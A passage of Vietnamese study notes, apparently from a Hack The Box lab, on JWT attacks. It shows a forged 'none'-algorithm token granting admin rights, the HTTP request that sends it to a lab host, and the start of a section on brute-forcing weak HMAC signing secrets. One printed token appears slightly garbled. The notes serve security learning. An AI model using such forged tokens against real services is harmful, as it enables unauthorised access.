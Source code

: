 - **Kết quả:** Server cấp quyền admin cho hacker do không kiểm tra chữ ký.

#### **3. Tấn công sử dụng thuật toán "none" (None Algorithm Attack)**
Thuật toán `"none"` trong JWT có nghĩa là không có chữ ký. Nếu ứng dụng chấp nhận thuật toán `"none"`, hacker có thể tạo JWT mà không cần chữ ký.

**Ví dụ minh họa:**
1. Hacker tạo JWT mới với Header:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```

2. Payload:
```json
{
  "user": "htb-stdnt",
  "isAdmin": true,
  "exp": 1711186044
}
```

3. JWT hoàn chỉnh:
```text
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbmI6dHJ1ZSwiZXhwIjoxNzExMTg2MDQ0fQ.
```

- **Yêu cầu HTTP với JWT sử dụng thuật toán "none":**
```http
GET /home HTTP/1.1
Host: 172.17.0.2
Cookie: session=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbiI6dHJ1ZSwiZXhwIjoxNzExMTg2MDQ0fQ.
```

- **Kết quả:** Nếu server không kiểm tra chữ ký, hacker sẽ được cấp quyền admin.

**Lưu ý:** Dù JWT sử dụng thuật toán `"none"`, phần cuối cùng vẫn phải có dấu chấm (`.`) để đảm bảo định dạng JWT hợp lệ.

---
# 3. Tấn công vào khóa bí mật ký JWT (Attacking the Signing Secret)

#### **1. Ý tưởng tấn công**
Khóa bí mật (signing secret) được sử dụng để tạo chữ ký cho JWT nhằm đảm bảo tính toàn vẹn của token. Nếu hacker biết được khóa bí mật này, họ có thể tạo ra JWT hợp lệ mà không cần phải bypass cơ chế xác minh chữ ký. Trong một số trường hợp, hacker có thể sử dụng phương pháp brute-force để tìm ra khóa bí mật nếu nó quá yếu hoặc dễ đoán.

#### **2. Các thuật toán ký JWT phổ biến**
JWT hỗ trợ các thuật toán ký đối xứng phổ biến sau, dựa trên khóa bí mật:
- **HS256**: HMAC với SHA-256.
- **HS384**: HMAC với SHA-384.
- **HS512**: HMAC với SHA-512.

